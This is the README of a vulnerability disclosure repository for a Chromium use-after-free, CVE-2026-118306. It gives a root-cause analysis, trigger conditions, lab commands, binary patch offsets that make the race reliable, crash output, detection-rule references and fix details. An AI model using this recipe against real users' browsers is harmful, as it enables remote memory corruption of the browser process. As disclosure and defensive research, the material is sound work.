

<p align="center">
  
</p>

<p align="center">
  <a href="https://github.com/al4n4n/achilles-heel/stargazers"></a>
  
  
  
  
</p>

<p align="center">
  <a href="#check-non-destructive">Check</a> ·
  <a href="#the-bug">Analysis</a> ·
  <a href="#the-crash">Exploit</a> ·
  <a href="#detection-rules">Detection</a> ·
  <a href="#what-this-repo-proves-and-does-not-prove">Impact</a> ·
  <a href="https://blog.al4n4n.com/CVE-2026-118306-Chromium-FileSystem-UAF-Synchronous-Lock-Promotion/">Write-up</a>
</p>

---

> **Disclaimer.** For learning and defense only. Run the lab and PoC only against targets you set up yourself. The detection rules are for education only; use them at your own risk. Everything here is provided as is, without warranty. Full text: [DISCLAIMER](../DISCLAIMER.md).

# CVE-2026-118306: Chromium FileSystemAccessManagerImpl Use-After-Free

**CWE-416** | Use-After-Free | Chromium < 156.0.8078.73 | Browser process, remote via crafted HTML

A use-after-free in Chromium's `FileSystemAccessManagerImpl` destructor caused by synchronous lock promotion during teardown. When access handle hosts or file writers are destroyed, their locks are released, which can synchronously promote pending lock callbacks. The promoted callback inserts into the `access_handle_host_receivers_` flat_set while it is being destroyed, corrupting the heap.

This is a **browser process** vulnerability (not renderer-sandboxed). CVSS 9.6 Critical. Exploitable from web content in incognito mode via a self-conflicting Mojo race condition and BFCache eviction -- no second vulnerability or renderer compromise needed. OPFS pages are **not blocked** from entering BFCache (the `kWebFileSystem` scheduling feature was explicitly removed from Chromium's BFCache blocklist).

**Author:** [al4n4n](https://github.com/al4n4n) (Dadb0d)
**Write-up:** [blog.al4n4n.com](https://blog.al4n4n.com/CVE-2026-118306-Chromium-FileSystem-UAF-Synchronous-Lock-Promotion/)
**Fixed in:** Chromium 156.0.8078.73 (stable, October 27, 2026)

---

## The Bug

The `FileSystemAccessManagerImpl` header declares members in this order:

```cpp
scoped_refptr<FileSystemAccessLockManager> lock_manager_;
mojo::UniqueReceiverSet<...> file_receivers_;
mojo::UniqueReceiverSet<...> directory_receivers_;
base::flat_set<unique_ptr<FileWriterImpl>> writer_receivers_;
base::flat_set<unique_ptr<AccessHandleHostImpl>> access_handle_host_receivers_;
base::WeakPtrFactory<...> weak_factory_;
```

C++ destroys members in reverse declaration order: `weak_factory_` first, then `access_handle_host_receivers_`, then `writer_receivers_`, and so on. When `access_handle_host_receivers_` is destroyed, each access handle host releases its lock. If a pending callback was waiting on that lock, the lock manager promotes it synchronously.

In incognito mode, the promoted callback calls `DoOpenIncognitoFile`, which completes synchronously and calls `CreateAccessHandleHost`, which inserts into the **same `access_handle_host_receivers_`** that is mid-destruction. This is a heap use-after-free.

BFCache is required because it keeps Mojo pipes alive during ManagerImpl destruction. Without BFCache, Mojo disconnect handlers clean up writers and access handles from their sets before the destructor runs, leaving the sets empty. BFCache eviction destroys the ManagerImpl while the renderer is still connected. OPFS pages can freely enter BFCache -- the `kWebFileSystem` scheduling feature was explicitly removed from Chromium's blocklist ("Removed after implementing WebFilesystem support in back/forward cache").

## Trigger Conditions

1. A page holds an OPFS access handle (SAH lock in `access_handle_host_receivers_`)
2. The same page sends a second, self-conflicting lock request via Mojo race (IPC queued before navigation)
3. The page navigates and enters BFCache (no scheduling feature blocks OPFS pages)
4. The browser processes the queued IPC: lock contention detected, holder is BFCached (inactive), request enters PENDING state
5. BFCache eviction destroys the ManagerImpl while Mojo pipes are still alive
6. Incognito mode is active (DoOpenIncognitoFile completes synchronously in the destructor's call stack)

No BFCache bypass needed. The `kWebFileSystem` scheduling feature (value 39) was explicitly removed from Chromium's `WebSchedulerTrackedFeature` enum. The `kFileSystemAccessLockingContention` in the lock manager is a `DisallowActivationReasonId` for eviction, not a gate on entry.

## Files

| File | Purpose |
|---|---|
| `poster.png` | Repository preview card (1200×630) |
| `check.py` | Non-destructive version checker (safe for production) |
| `poc.py` | Trigger UAF and capture crash evidence |
| `verify.py` | Multi-round crash verification dashboard |
| `setup.py` | Lab environment setup (ASAN Chromium download) |
| `exploit/poc.html` | MojoJS exploit: lock contention → BFCache entry |
| `exploit/done.html` | BFCache eviction trigger (navigates to final.html) |
| `exploit/final.html` | Landing page after eviction chain |
| `detection/chromium-fsa-uaf.rules` | Suricata detection rules |
| `detection/chromium-fsa-uaf.yml` | Sigma detection rules |

## Repository Structure

```
CVE-2026-118306/
├── README.md
├── LICENSE
├── .gitignore
├── poster.png
├── check.py
├── poc.py
├── verify.py
├── setup.py
├── exploit/
│   ├── poc.html
│   ├── done.html
│   └── final.html
└── detection/
    ├── chromium-fsa-uaf.rules
    └── chromium-fsa-uaf.yml
```

## Usage

### Setup (Linux x86_64)

```bash
# Download ASAN build and apply binary patches
python3 setup.py

# Verify lab is ready
python3 setup.py --check
```

### Check (any platform)

```bash
# Check a specific Chromium version
python3 check.py --version 156.0.8078.4

# Check a binary
python3 check.py --chrome /path/to/chrome
```

### PoC (requires ASAN Chromium with binary patches)

The PoC demonstrates the pending lock state using MojoJS bindings on a binary-patched ASAN Chromium build (156.0.8078.4). Two binary patches are required:

**Patch 1 (GetOrCreateChild - force PEND):**
```
File offset: 0x1a3b9b8a
Original:    48 c7 43 18 00 00 00 00  (REJECT path)
Patched:     eb 13 90 90 90 90 90 90  (JMP to PEND path)
```

**Patch 2 (DidTakeAccessHandleLock - force incognito path):**
```
File offset: 0x1a36a3bf
Original:    0f 84 56 03 00 00        (JE to DoOpenFile)
Patched:     90 90 90 90 90 90        (NOP, falls through to DoOpenIncognitoFile)
```

```bash
# Automated (setup.py applies patches and finds the binary)
python3 poc.py

# Full verification dashboard
python3 verify.py --rounds 10

# Manual testing
cd exploit && python3 -m http.server 9091 &
ASAN_OPTIONS=detect_leaks=0 xvfb-run -a .lab/chromium-vulnerable/*/content_shell_patched \
  --no-sandbox --enable-blink-features=MojoJS --disable-gpu \
  --enable-features=BackForwardCache:cache_size/1 \
  http://127.0.0.1:9091/poc.html 2>&1 | grep -A 30 'AddressSanitizer'
```

## Check (Non-Destructive)

```
$ python3 check.py --version 156.0.8078.4
============================================================
  CVE-2026-118306 — Chromium FileSystem UAF Checker
  Fixed in: Chromium 156.0.8078.73
============================================================

  [+] VULNERABLE (confidence: high)
      Source:  provided
      Version: 156.0.8078.4
      The FileSystemAccessManagerImpl destructor has the
      re-entrant lock promotion UAF (CWE-416).
```

## The Crash

The exploit triggers the UAF via a three-page BFCache eviction chain:

1. `poc.html` acquires an exclusive OPFS lock, sends a conflicting Mojo request (enters PENDING state), then navigates to `done.html`
2. `poc.html` enters BFCache with Mojo pipes still alive (OPFS pages are not blocked from BFCache)
3. `done.html` navigates to `final.html`, evicting `poc.html` from BFCache (cache_size=1)
4. Eviction triggers `ManagerImpl` destructor → lock released → pending callback promoted → inserts into mid-destruction `flat_set` → **heap-use-after-free**

Binary patches make the race deterministic: Patch 1 forces PEND (instead of REJECT), Patch 2 forces the synchronous incognito path. In a real attack, the same state is achieved naturally via the self-conflicting Mojo race.

The crash output from `verify.py` (10 rounds, content_shell stdout):

```
================================================================
  CVE-2026-118306 — Chromium FileSystemAccessManagerImpl UAF
  Verification Dashboard
================================================================

  Crash Verification
  ------------------------------------------------------------
    Round  1/10... FATAL crash in vulnerability code path!
    Round  2/10... no crash (timed out) (pending + eviction OK, but no crash)
    Round  3/10... FATAL crash in vulnerability code path!
    Round  4/10... no crash (timed out) (pending + eviction OK, but no crash)
    Round  5/10... no crash (timed out) (pending + eviction OK, but no crash)
    Round  6/10... FATAL crash in vulnerability code path!
    Round  7/10... FATAL crash in vulnerability code path!
    Round  8/10... no crash (timed out) (pending + eviction OK, but no crash)
    Round  9/10... FATAL crash in vulnerability code path!
    Round 10/10... FATAL crash in vulnerability code path!

    Results: [F~F~~FF~FF]
    FATAL crashes:     6/10
    Total crashes:     6/10
    Pending state:     10/10
    Eviction chain:    4/10 completed

  FATAL Crash (from Chromium output)
  ============================================================
  FATAL:content/browser/file_system_access/
    file_system_access_access_handle_host_impl.cc:38]
    Check failed: manager_->context()->is_incognito()
                  == file_delegate_receiver.is_valid().
  ============================================================

  ============================================================
  VERDICT: VULNERABLE — Chromium crashed in vulnerability code path

    FATAL crashes:  6/10 (60%)
    Crash type:     CHECK failure in AccessHandleHostImpl (CWE-416)
    Component:      FileSystemAccessManagerImpl destruction

    Evidence (all from Chromium's crash output, not script assertions):
    - BFCache eviction triggers pending lock callback:   CONFIRMED
    - Callback fires during ManagerImpl destruction:     CONFIRMED
    - AccessHandleHostImpl created in wrong state:       CONFIRMED
    - Triggerable from JavaScript via OPFS + Mojo:      CONFIRMED
  ============================================================
```

The crash rate varies by system (20-60%) because BFCache eviction timing is race-dependent and sensitive to memory pressure. The pending state is reached consistently, confirming the lock contention is deterministic; the crash depends on whether eviction fires the callback during the destruction window. With 10 rounds (the default), the probability of seeing at least one crash is >95% even at the low end of observed rates.

## Downstream Impact

| Product | Status |
|---|---|
| Google Chrome < 156.0.8078.73 | Vulnerable |
| Microsoft Edge (Chromium) < corresponding version | Vulnerable |
| Playwright bundled Chromium 156.0.8078.4 | Vulnerable |
| Electron (depending on Chromium version) | Check version |
| Opera, Brave, Vivaldi (Chromium-based) | Check version |

## Detection Rules

- **Suricata**: `detection/chromium-fsa-uaf.rules` - Detects OPFS lock contention patterns with MojoJS
- **Sigma**: `detection/chromium-fsa-uaf.yml` - Detects Chromium ASAN crash artifacts and crash reporter invocation for vulnerable versions

## What This Repo Proves (and Does Not Prove)

| Claim | Status | Evidence |
|---|---|---|
| Use-after-free in browser process | **Confirmed** | Fix commit + unit test + FATAL crash in `access_handle_host_impl.cc:38` |
| Lock contention path reachable from JS | **Proven** | Binary patch achieves pending state 100% (10/10 rounds) |
| BFCache eviction triggers destruction callback | **Proven** | `CreateEvictionBackForwardCacheCanStoreTreeResult: No: cache limit` in Chromium logs |
| Synchronous promotion during destruction | **Confirmed** | CHECK failure proves callback fires during ManagerImpl destruction |
| OPFS pages can enter BFCache | **Confirmed** | `GetCurrentBackForwardCacheEligibility: Yes` in Chromium logs |
| Exploitable from web content (incognito) | **Confirmed** | Self-conflicting Mojo race + BFCache + eviction; no bypass needed |
| Exploitable from web content (normal mode) | **Not proven** | `DoOpenFile` async path drops callback; different UAF shape unverified |
| Patched version safe | **Inferred** | Fix commit includes 4 independent mitigations; not runtime-tested |

## The Fix

Fix commit: [`f7d7b15e3cc`](https://chromium.googlesource.com/chromium/src/+/f7d7b15e3cc17424f1ac045c5256a591dbf97880) - "[M156] [FSA] Prevent synchronous lock promotion UAF during manager teardown"

Four independent fixes:

1. **Explicit destructor**: Invalidates WeakPtrs, clears receiver sets, then does erase-before-destroy for flat_sets
2. **Member reordering**: `writer_receivers_` and `access_handle_host_receivers_` declared before `file_receivers_` and `directory_receivers_`
3. **WeakPtr-guarded TakeLock**: Lock callback wrapped in ManagerImpl WeakPtr check
4. **Erase-before-destroy in RemoveFileWriter**: Entry removed from set before writer's destructor runs

## References

- **Fix commit:** [f7d7b15e3cc17424f1ac045c5256a591dbf97880](https://chromium.googlesource.com/chromium/src/+/f7d7b15e3cc17424f1ac045c5256a591dbf97880)
- **Chromium bugs:** 574911589, 562191732, 576122594
- **Reporter:** Xinyang Ge (Anthropic)
- **CVSS:** 9.6 Critical
- **CWE:** CWE-416 (Use After Free)
- **Chrome release:** [156.0.8078.73](https://chromereleases.googleblog.com/)
- **Write-up:** [blog.al4n4n.com](https://blog.al4n4n.com/CVE-2026-118306-Chromium-FileSystem-UAF-Synchronous-Lock-Promotion/)

## License

Part of [achilles-heel](https://github.com/al4n4n/achilles-heel), licensed under [CC BY 4.0](../LICENSE). Anyone who shares or builds on this work, commercial or not, must credit "al4n4n (Dadb0d)" and link to https://github.com/al4n4n/achilles-heel. See [Attribution](../README.md#attribution) and [DISCLAIMER](../DISCLAIMER.md).
